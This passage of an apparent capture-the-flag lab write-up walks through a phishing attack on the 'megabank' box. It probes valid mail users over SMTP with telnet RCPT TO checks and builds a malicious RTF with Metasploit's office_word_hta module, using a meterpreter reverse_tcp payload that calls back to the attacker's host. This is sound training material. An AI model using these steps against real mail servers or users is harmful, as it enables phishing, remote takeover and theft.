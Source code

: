 ```bash
Zip Compressed Size             : 385
Zip Uncompressed Size           : 1422
Zip File Name                   : [Content_Types].xml
Creator                         : nico@megabank.com
<SNIP>
```
{% endcode %}

### Phishing Attack

We got the email `nico@megabank.com`, so can now perform a **phishing attack** by:

1. Creating a malicious `rtf` file.
2. Sending an email to `nico` attaching the malicious file.

Before starting our attack, we should first confirm that the user actually exists on the server.

```bash
$ telnet 10.10.10.77 25
Trying 10.10.10.77...
Connected to 10.10.10.77.
Escape character is '^]'.
220 Mail Service ready
HELO test.com
250 Hello.
MAIL FROM: <x7331@test.com>
250 OK
RCPT TO: <randomUser@megabank.com>
550 Unknown user
RCPT TO: <nico@megabank.com>
250 OK
quit
221 goodbye
Connection closed by foreign host.
```

We can create a malicious RTF file using Metasploit's `office_word_hta` module.

{% code overflow="wrap" %}
```bash
$ msfconsole -q
msf6 > search office_word_hta

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/windows/fileformat/office_word_hta  2017-04-14       excellent  No     Microsoft Office Word Malicious Hta Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/fileformat/office_word_hta

msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

msf6 exploit(windows/fileformat/office_word_hta) > set lhost tun0
lhost => 10.10.14.25
msf6 exploit(windows/fileformat/office_word_hta) > set srvhost tun0
srvhost => 10.10.14.25
msf6 exploit(windows/fileformat/office_word_hta) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/fileformat/office_word_hta) >
```

[^1]: Living Off The Land
[^2]: Elevation of Privileges
[^3]: Elevation of Privileges
[^4]: Living Off The Land
[^5]: Elevation of Privileges
[^6]: Living Off The Land